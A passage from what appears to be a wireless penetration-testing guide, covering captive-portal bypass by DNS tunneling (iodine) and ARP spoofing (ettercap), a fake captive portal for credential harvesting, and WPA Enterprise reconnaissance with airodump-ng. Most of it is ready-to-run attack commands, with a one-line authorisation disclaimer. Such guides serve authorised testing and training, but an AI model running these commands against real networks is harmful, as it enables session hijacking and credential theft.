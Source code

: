 #### Method 2: DNS Tunneling
```bash
# Using iodine for DNS tunneling
sudo iodined -f -c -P password 10.0.0.1 tunnel.domain.com

# Client connection
sudo iodine -f -P password tunnel.domain.com
```

#### Method 3: ARP Table Manipulation
```bash
# Discover gateway and authenticated hosts
nmap -sn 192.168.1.0/24

# ARP spoofing to hijack authenticated session
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.50//
```

### Captive Portal Detection
```bash
# Check for captive portal redirect
curl -I http://httpbin.org/get

# Expected captive portal response
# HTTP/1.1 302 Found
# Location: https://captiveportal.example.com/login
```

### Credential Harvesting
```bash
# Set up fake captive portal (social engineering)
# Create convincing login page matching legitimate portal
# Use social engineering toolkit (SET)
sudo setoolkit
```

**Important**: Only use these techniques on networks you own or have explicit permission to test.

---

## Attacking WPA Enterprise {#wpa-enterprise}

### WPA Enterprise Overview
- **Authentication**: 802.1X with EAP methods
- **Common EAP Types**: PEAP-MSCHAPv2, EAP-TLS, EAP-TTLS
- **Attack Strategy**: Certificate spoofing and credential interception

### Reconnaissance Phase
```bash
# Identify enterprise networks
sudo airodump-ng --band abg wlan0mon | grep MGT

# Capture enterprise authentication
sudo airodump-ng --band abg -c 6 --bssid TARGET -w enterprise_capture wlan0mon
```
